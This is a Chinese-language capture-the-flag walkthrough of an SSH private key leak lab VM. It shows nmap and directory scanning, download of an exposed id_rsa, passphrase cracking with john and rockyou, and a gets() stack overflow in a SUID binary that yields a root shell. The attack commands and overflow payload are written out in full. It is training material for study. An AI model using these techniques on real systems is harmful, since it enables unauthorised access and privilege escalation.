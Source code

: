 # ssh私钥泄露


参考：[SSH私钥泄露 | wolke](https://wolke.cn/post/e8314d47)



### 一、靶机

#### 1、下载安装

链接

打开方式为VMware Workstation，主机和靶机网络适配器设为相同模式，我的是NAT，有些网络下桥接显示不了IP（宿舍校园网无线和有线显示不了，教学区校园网ip显示不同，不懂

参考：[CTF靶场系列————SSH-私钥泄露 | m0re的小站](https://m0re.top/posts/d77071c4/)

#### 2、准备

靶机开启就行，不需要登入，这一步看情况进行

##### （1）重置靶场密码

重启主机，按e，进入如下界面

找到linux开头一行，末尾添加`init=/bin/bash`，按Crtl+x完成输入 

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181116297.jpg" alt="重置密码" style="zoom: 67%;" />

```bash
mount -o rw,remount /
passwd root  // 重置密码
```

成功后重启虚拟机，以root用户进入

##### （2）查看IP

输入`ip a`，查看靶机IP地址 192.168.130.130

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181455333.jpg" alt="靶机ip" style="zoom:67%;" />



### 二、信息搜集

#### 1、探测靶机IP

- arp-scan

```bash
arp-scan -l
```

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181459012.jpg" alt="arp-scan" style="zoom:67%;" />

- netdiscover

```bash
ip a  // 查看主机ip 192.168.130.128
netdiscover -r 192.168.130.128/24  // -r ip/mask,8/16/24分别表示探索子网的B/C/D段
```

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181526421.jpg" alt="netdiscover" style="zoom: 80%;" />

出现多个ip无法区分，逐一nmap扫描，一般是有开放ssh服务

#### 2、端口与服务扫描

```bash
nmap -sV 192.168.130.130  // -sV 探测开放端口以确定服务/版本信息
```

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181530878.jpg" alt="nmap" style="zoom:67%;" />

发现22-ssh、80-nginx、31337-python，开启了ssh和http服务

常用端口为0到1023，分析特殊端口31337，访问对应网站 192.168.130.130:31337，没有文件

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181537854.jpg" alt="31337" style="zoom:67%;" />

#### 3、目录扫描

- dirsearch

```bash
dirsearch -u 192.168.130.130:31337 
```

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181548929.jpg" alt="dirsearch" style="zoom: 67%;" />

发现robots.txt、/.ssh/id_rsa（私钥）和/.ssh/authorized_keys（认证关键字）等

参考：[id_rsa 与 id_rsa.pub 文件详解 - fengMisaka - 博客园 (cnblogs.com)](https://www.cnblogs.com/linuxAndMcu/p/14487989.html)

- dirb

```bash
dirb http://192.168.130.130:31337
```

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181627497.jpg" alt="dirb" style="zoom: 80%;" />

访问robots.txt

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181633334.jpg" alt="robots" style="zoom: 80%;" />

依次访问以下路径，在http://192.168.130.130:31337/taxex/中看到第一个flag **flag1{make_america_great_again}**

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181636040.jpg" alt="flag1" style="zoom: 80%;" />

使用网站访问下载/.ssh/id_rsa和/.ssh/authorized_keys，发现id_rsa需密码打开，authorized_keys看到疑似账户名**simon**

```bash
// authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDzG6cWl499ZGW0PV+tRaOLguT8+lso8zbSLCzgiBYkX/xnoZx0fneSfi93gdh4ynVjs2sgZ2HaRWA05EGR7e3IetSP53NTxk5QrLHEGZQFLId3QMMi74ebGBpPkKg/QzwRxCrKgqL1b2+EYz68Y9InRAZoq8wYTLdoUVa2wOiJv0PfrlQ4e9nh29J7yPgXmVAsy5ZvmpBp5FL76y1lUblGUuftCfddh2IahevizLlVipuSQGFqRZOdA5xnxbsNO4QbFUhjIlA5RrAs814LuA9t2CiAzHXxjsVW8/R/eD8K22TO7XEQscQjaSl/R4Cr1kNtUwCljpmpjt/Q4DJmExOR simon@covfefe
```



### 三、漏洞利用

#### 1、破解秘钥

尝试使用私钥进行ssh连接

```bash
ssh -i id_rsa simon@192.168.130.130
```

失败，发现需输入秘钥id_rsa密码

```bash
locate ssh2john  // 查看路径 /usr/share/john/ssh2john.py
python /usr/share/john/ssh2john.py id_rsa > rsacrack  // 将秘钥信息转化为john可识别信息
zcat /usr/share/wordlists/rockyou.txt.gz | john --pipe --rule rsacrack  // 利用字典破解
john rsacrack  // 其他方式，默认情况使用自带字典 /usr/share/john/password.lst
```

得到密码 **starwars**

另外，john对一个文件只能爆破一次，再爆破会报错（哭

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)
```

需要查看上一次爆破结果可用以下命令

```bash
john --show filename
```

参考：[使用john进行密码爆破](https://blog.csdn.net/FunkyPants/article/details/78648109)

#### 2、ssh连接

```bash
ssh -i id_rsa simon@192.168.130.130
```

报错为文件权限过高问题

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181746573.jpg" alt="right" style="zoom: 80%;" />

修改权限为600

```bash
chmod 600 ./*
ls -la
```

重新连接即可

参考：[Linux文件权限设置 - EnochLin - 博客园 (cnblogs.com)](https://www.cnblogs.com/xsseng/p/9270723.html)

#### 4、提升权限

ls、pwd、whoami查看相关信息，发现root下有个flag.txt，但无权查看，还有一个read_message.c（下面会用到

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181812433.jpg" alt="try"  />

从根目录查找拥有suid特殊权限的文件，并重定向错误信息，防止打断查找

```bash
find / -perm -4000 2>/dev/null
```

<img src="https://gitee.com/giteemof/img/raw/master/img/202206181758802.jpg" alt="find" style="zoom:80%;" />

找到/usr/local/bin/read_message可执行文件，且具有root权限

打开上面找到的源码read_message.c，发现第二个flag **flag2{use_the_source_luke}**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// You're getting close! Here's another flag:
// flag2{use_the_source_luke}

int main(int argc, char *argv[]) {
    char program[] = "/usr/local/sbin/message";
    char buf[20];
    char authorized[] = "Simon";

    printf("What is your name?\n");
    gets(buf);

    // Only compare first five chars to save precious cycles:
    if (!strncmp(authorized, buf, 5)) {
        printf("Hello %s! Here is your message:\n\n", buf);
        // This is safe as the user can't mess with the binary location:
        execve(program, NULL, NULL);
    } else {
        printf("Sorry %s, you're not %s! The Internet Police have been informed of this violation.\n", buf, authorized);
        exit(EXIT_FAILURE);
    }

}

```

源码存在栈溢出问题，输入Simon+15个字符+/bin/sh，即Simonaaaaaaaaaaaaaaa/bin/sh，用/bin/sh覆盖program值运行，提权成功，查看flag.txt，得到 **flag3{das_bof_meister}**

```
You did it! Congratulations, here's the final flag:
flag3{das_bof_meister}
```

参考：[对Linux|suid提权的一些总结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/288129.html)



### 四、总结

1. 探测靶机ip，扫描端口与服务，着重关注http服务的特殊端口
2. 扫描目录下隐藏文件
3. 通过rsa私钥、认证关键字获取连接ssh方式与用户名，利用john爆破密码
4. suid提权，寻找具有root权限的可执行文件
5. 一般在root文件夹下有关键信息
6. pwn的栈溢出


